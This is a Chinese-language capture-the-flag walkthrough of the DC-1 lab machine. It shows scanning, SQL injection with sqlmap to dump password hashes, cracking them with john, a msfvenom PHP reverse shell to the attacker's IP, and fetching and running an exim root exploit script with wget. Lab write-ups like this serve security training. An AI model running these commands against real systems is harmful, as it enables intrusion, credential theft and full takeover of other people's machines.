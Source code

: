 
# 0x00环境

攻击机：kali：192.168.1.28

靶机DC-1：192.168.1.16


# 0x01实战


## 端口扫描

```
nmap -sV -A 192.168.1.16
```

![image-20220112164641097.png](./assets/1652257073736-8390267d-bcfa-418b-b640-463bff073dcf.png)


## 目录扫描

![image-20220112165133362.png](./assets/1652257077313-fb27c613-5af4-4c9f-ac5e-d0387bfb15ff.png)

查看robots.txt文件，发现后台等登录地址

![image-20220112165231585.png](./assets/1652257081676-3ff7a213-754d-45b5-87c5-fbc3be4f9fc8.png)


## 漏洞发现

漏洞发现在浏览页面的时候发现URL处可能存在SQL注入漏洞<br />添加单引号报错

![image-20220112165530031.png](./assets/1652257088726-6bf2b76d-b555-40b4-85ee-55fa01013825.png)


## 漏洞利用

使用sqlmap暴库

```
sqlmap http://192.168.1.16/?nid=1 --dbs
```

![image-20220112165729453.png](./assets/1652257095565-1cf1584a-6460-4476-8c51-0e66c6d7e88c.png)

暴表

```
sqlmap http://192.168.1.16/?nid=1 -D d7db --tables
```

![image-20220112165832577.png](./assets/1652257098999-2e3e888b-7371-46ef-b4ac-eea0376cd2a7.png)

暴字段

```
sqlmap http://192.168.1.16/?nid=1 -D d7db -T users --columns
```

![image-20220112165916653.png](./assets/1652257102535-098e9a30-fe51-4441-9619-1ebe3482a0ee.png)

拖库

```
sqlmap http://192.168.1.16/?nid=1 -D d7db -T users -C name,pass --dump
```

![image-20220112165958237.png](./assets/1652257106014-f3bd2e15-3835-4b12-acc9-b3649b8f9bfa.png)

将密码hash保存到password.txt中，使用john破解

```
john password.txt
```

![image-20220112170512393.png](./assets/1652257109218-31086dcd-7269-44b9-874f-7907569cc4f1.png)

得到john的的密码turtle

使用账户john登录后台，成功

![image-20220112170645473.png](./assets/1652257112439-56d63d7d-064e-4757-82b0-f7e1d5123018.png)

在浏览后台的时候发现我们可以加入PHP代码

![image-20220113091509192.png](./assets/1652257116005-5fa12f63-12d5-478b-8c6f-879128498525.png)


## 反弹shell

使用msfvenom生成一个php木马文件

```
msfvenom -p php/meterpreter/reverse_tcp  lhost=192.168.1.28 port=4444 -f raw
```

![image-20220113091917661.png](./assets/1652257123879-a669f2e7-8e4f-4d97-83a6-b7ab2baa9c0f.png)

创建恶意文件文件内容为生成的木马

![image-20220113092121416.png](./assets/1652257127135-c78b7446-53b1-40f8-a408-47589ef056c4.png)

创建监听

```
┌──(root💀kali)-[~]
└─# msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.1.28
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > run
```

在浏览器中访问木马文件就得知道木马文件所在的位置

![image-20220113092213870.png](./assets/1652257131873-07e3f95f-70a1-4767-8e29-3956f9f3f0d1.png)

通过发送邮件的方式来触发

![image-20220113093249554.png](./assets/1652257136266-a692299e-7c24-425e-80c8-0d939472b93c.png)

成功反弹shell

![image-20220113093312743.png](./assets/1652257140438-a65d0b15-740c-4ee4-844c-6a7fd64eaf02.png)


## 提权

查看系统信息

```
cat /proc/version
cat /etc/issue
```

![image-20220113093629200.png](./assets/1652257146731-454cd7ed-4aaa-40de-abe9-fe2d792b07df.png)

没有可以利用的

查找suid权限的程序

```
find / -user root -perm -4000 -print 2>/dev/null
```

![image-20220113093934660.png](./assets/1652257156808-6d2d94cc-9815-4a70-9e03-b1c5a6ec7793.png)

查找到exim存在可以利用的提权脚本

![image-20220113095547171.png](./assets/1652257164333-0891365b-a775-479a-ad92-8d25e9be4cba.png)

查看目标机exim的版本

```
/usr/sbin/exim4 --version
```

![image-20220113095641118.png](./assets/1652257168039-abfcdb2b-74c1-4125-a625-12a01c638efe.png)

查看脚本，有两种利用方法

![image-20220113100227439.png](./assets/1652257171088-34914758-b022-45d2-8336-ed04ca1c1f78.png)

vi查看一下脚本格式

![image-20220113100302641.png](./assets/1652257174322-ee9b9139-48d4-4493-8d9e-9476f584036a.png)

修改为linux格式

```
dos2unix 46996.sh
```

![image-20220113100419582.png](./assets/1652257178032-6a7f1d29-2797-4ff8-9865-90c354e3acc0.png)

使用python3创建HTTP服务

```
python3 -m http.server
```

![image-20220113100604530.png](./assets/1652257181577-51d286cf-71a6-4db7-ae3c-dcea99d37a25.png)

进入靶机的tmp目录下载脚本

```
 wget http://192.168.1.28:8000/46996.sh
```

![image-20220113100811617.png](./assets/1652257184205-d8a86aab-7918-49b5-813e-7f5a25c9e357.png)

赋予脚本执行权限，并执行

```
chmod +x 46996.sh
./46996 -m netcat
```

![image-20220113102615811.png](./assets/1652257187652-554e621e-6a76-438e-adc9-9a0e6a4dd93f.png)


## final-flag

在root根目录找到flag

![image-20220113102838585.png](./assets/1652257193325-aa099054-7e22-47c4-9f7e-28cbfc338189.png)
